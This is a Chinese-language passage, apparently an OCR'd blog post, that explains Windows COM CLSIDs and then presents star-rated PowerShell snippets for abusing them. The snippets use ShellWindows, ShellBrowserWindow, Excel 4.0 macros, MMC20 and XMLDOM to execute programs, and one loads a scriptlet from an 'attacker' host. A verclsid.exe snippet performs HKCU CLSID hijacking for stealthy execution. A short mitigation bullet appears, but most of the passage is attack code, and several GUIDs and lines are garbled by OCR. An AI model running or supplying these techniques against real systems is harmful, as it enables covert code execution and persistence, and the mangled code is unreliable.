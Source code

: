 那么什么是 CLSID?  
- CLSID(类标识符) 是 128 位 GUID(例如{374DE290-123F-4565-9164-39C4925E467B}  
)，在 Windows 中唯一标识 COM 对象，使应用程序能够定位和与系统或第三方组件 (如设备管理器或 UI 处理程序) 交互。  
  
- 它们在 Windows 注册表的HKEY_CLASSES_ROOT\CLSID  
下映射，其中子键定义了对象可执行文件 (DLL/EXE) 的路径、线程模型和权限。  
  
- 应用程序使用 API(如CoCreateInstance  
) 和 CLSID 来实例化 COM 对象 - 这对于功能如文件资源管理器的传统搜索框 ({bc32b5-4eec-4de7-972d-bd8bd0324537}  
) 或 Office 应用程序至关重要。  
  
- 攻击者通过在HKCU\Software\Classes\CLSID  
(用户级) 中覆盖合法的注册表项来劫持 CLSID，将受信任的进程 (如explorer.exe  
) 重定向到恶意负载，而无需管理员权限。  
  
- 被劫持的 CLSID 能够隐蔽执行，通常在重启后仍然存在，并通过模仿合法的系统任务 (如磁盘清理vssadmin delete shadows  
) 来绕过检测。  
  
- 缓解措施包括监控注册表更改、对 CLSID 键实施最小权限访问、通过 AppLocker 白名单受信任的 COM 对象，以及验证引用的二进制文件的数字签名。  
  
- 开发人员必须确保正确的 CLSID 注册 (例如使用regsvr32  
) 并匹配 32/64 位架构以避免错误如0x80040154  
。  
  
现在来看滥用它们的精彩部分：  
  
ShellWindows COM (有效性：★★★★☆)  
```
$sh = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8–11CF-A442–00A0C90A8F39"))  $sh.Item().Document.Application.ShellExecute("calc.exe", "", "", $null, 0)
```  
  
ShellBrowserWindow (有效性：★★★★★)  
```
$browser = [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1–11D1–8455–00A0C91F3880"))  $browser.Document.Application.ShellExecute("calc.exe")
```  
  
Excel 4.0 宏 (有效性：★★★★☆)  
```
$excel = [activator]::CreateInstance([type]::GetTypeFromCLSID("00024500–0000–0000-C000–000000000046"  $excel.ExecuteExcel4Macro('CALL("user32","ShellExecuteA","JJCCJJ",0,"open","calc.exe","","",5)')
```  
  
XMLDOM 远程脚本组件 (有效性：★★★★★)  
```
$xml = [activator]::CreateInstance([type]::GetTypeFromCLSID("88d969c5-f192–11d4-a65f-0040963251e5"))  $xml.async = $false  $xml.load("http://attacker/calc.sct")
```  
  
MMC20.Application (有效性：★★★☆☆)  
```
$mmc = [activator]::CreateInstance([type]::GetTypeFromCLSID("49B2791A-B1AE-4C90–9B8E-E860BA07F889"))  $mmc.Document.ActiveView.ExecuteShellCommand("cmd", $null, "/c calc.exe", "7")
```  
  
Verclsid.exe 代理 (有效性：★★★★☆)  
```
New-Item -Path “HKCU:\Software\Classes\CLSID\{01575CFE-9A55–4003-A5E1-F38D1EBDCBE1}\InprocServer32” -Force  Set-ItemProperty -Path “HKCU:\Software\Classes\CLSID\{01575CFE-9A55–4003-A5E1-F38D1EBDCBE1}\InprocServer32” -Name “(Default)” -Value “C:\Windows\System32\calc.exe” & verclsid.exe /S /C “{01575CFE-9A55–4003-A5E1-F38D1EBDCBE1}”
```  
## - 滥用 (鲜为人知的) Windows 二进制文件实现隐蔽的 Payload 执行  
  